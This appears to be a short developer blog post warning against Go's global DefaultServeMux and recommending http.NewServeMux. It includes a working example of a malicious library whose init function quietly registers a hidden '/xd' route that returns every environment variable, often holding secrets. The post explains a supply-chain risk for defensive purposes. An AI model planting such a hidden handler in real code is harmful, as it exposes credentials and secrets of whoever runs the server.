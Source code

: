 ```yaml
---
layout: post
title: Avoid using golang DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle registers the handler/handler function in the DefaultServeMux. The problem is that DefaultServerMux is a global and exported var.

So if you import some malicious or hijacked lib they can attach a handler to the DefaultHandlerMux, for example in the init.

```go
func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	asd := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		asd = append(asd, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &asd})
}
```

The way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

Thanks for reading!